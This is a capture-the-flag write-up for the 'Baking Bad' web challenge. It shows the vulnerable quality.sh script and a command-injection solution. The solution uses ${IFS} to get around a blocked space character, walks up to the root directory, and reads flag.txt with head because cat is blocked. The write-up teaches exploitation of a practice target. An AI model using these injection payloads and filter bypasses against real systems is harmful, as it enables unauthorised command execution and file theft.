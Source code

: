 # Baking Bad

```text
This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!

Our bakers have been trying to come up with a new P2P-recipe trying all sorts of weird ingredients to raise the purity, but it's so costly this way.

Luckily, the developers at Brunnerne have come up with a bash -c 'recipe' that can simulate the baking process. This way we can test ingredients in a simulator to find ingredients that result in a higher purity - without wasting any ressources.
```

points: `100`

solves: `339`

author: `0xjeppe`

---

From the description, it is clear that this is a Command Injection problem

![image](../images/3.png)

Going to `/quality.sh`:

```shell
#!/bin/sh
ingredient="$1"
[ -z "$ingredient" ] && { echo "No ingredient!"; exit 1; }

purity=$(awk -v s="$RANDOM" 'BEGIN{srand(s);printf "%.1f",80+20*rand()}')
echo "Ingredient: $ingredient"
echo "Purity: $purity%"
```

After a few tries, we get to know that `space`, `/`, `\` are *Illegal characters*

`space` can be replaced by `${IFS}`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;ls
Ingredient: sugar
Purity: 93.5%
bin
boot
dev
etc
flag.txt
home
lib
lib.usr-is-merged
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Yay flag.txt!
But `cat` is an *Illegal command*, so we use `head`

```shell
sugar;cd${IFS}..;cd${IFS}..;cd${IFS}..;head${IFS}flag.txt
Ingredient: sugar
Purity: 83.1%
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```
